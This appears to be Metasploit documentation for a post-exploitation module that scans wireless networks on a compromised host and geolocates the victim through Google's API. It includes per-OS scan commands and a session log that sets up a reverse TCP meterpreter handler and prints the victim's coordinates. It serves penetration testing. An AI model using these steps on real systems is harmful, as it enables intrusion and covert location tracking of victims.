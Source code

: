 ## Creating A Testing Environment

  For this module to work you need a box with a wireless adapter.  The following methods are used to gather
  wireless information from the host:
  
  - Windows: `netsh wlan show networks mode=bssid`
  - OSX: `/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s`
  - Linux: `iwlist scanning`
  - Solaris: `dladm scan-wifi`
  - BSD: `dmesg | grep -i wlan | cut -d ':' -f1 | uniq"`
  - Android: [WifiManager](https://developer.android.com/reference/android/net/wifi/WifiManager)
  
  If `GEOLOCATE` is set to true, Google's [GeoLocation APIs](https://developers.google.com/maps/documentation/geolocation/intro) are utilized.
  These APIs require a Google [API key](https://developers.google.com/maps/documentation/geolocation/get-api-key) to use them.  The original
  methodology used by this module in [#3280](https://github.com/rapid7/metasploit-framework/pull/3280),
  which didn't require an API key, was found to no longer work in [#8928](https://github.com/rapid7/metasploit-framework/issues/8928).  
  
## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: `use post/multi/gather/wlan_geolocate`
  4. Do: `set session #`
  5. Do: `set apikey [key]`
  5. Do: `run`

## Options

### geolocate
  
  A boolean on if wireless information should only be gathered, or the Google geolocate API should be used to geo the victim.  Defaults to `false`
  
### apikey

  A string containing the Google provided geolocation api key. **REQUIRED** if `geolocate` is set to true. Defaults to empty string

## Scenarios

### Windows 10

	resource (met_rev.rc)> use exploit/multi/handler
	resource (met_rev.rc)> set payload windows/meterpreter/reverse_tcp
	payload => windows/meterpreter/reverse_tcp
	resource (met_rev.rc)> setg lhost 2.2.2.2
	lhost => 2.2.2.2
	resource (met_rev.rc)> set lport 9876
	lport => 9876
	resource (met_rev.rc)> setg verbose true
	verbose => true
	resource (met_rev.rc)> exploit
	[*] Exploit running as background job 0.
	[*] Started reverse TCP handler on 2.2.2.2:9876 
	[*] Sending stage (179267 bytes) to 1.1.1.1
	[*] Meterpreter session 1 opened (2.2.2.2:9876 -> 1.1.1.1:16111) at 2017-10-01 19:27:15 -0400
	
	resource (met_rev.rc)> use post/multi/gather/wlan_geolocate
	resource (met_rev.rc)> set geolocate true
	geolocate => true
	resource (met_rev.rc)> set session 1
	session => 1
	resource (met_rev.rc)> set apikey ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	apikey => ANza1yFLhaK3lreck7N3S_GYbEtJE3gGg5dJe12
	msf post(wlan_geolocate) > run
	[+] Wireless list saved to loot.
	[*] Google indicates the device is within 30.0 meters of 30.3861197,-97.7385878.
	[*] Google Maps URL:  https://maps.google.com/?q=30.3861197,-97.7385878
	[*] Post module execution completed
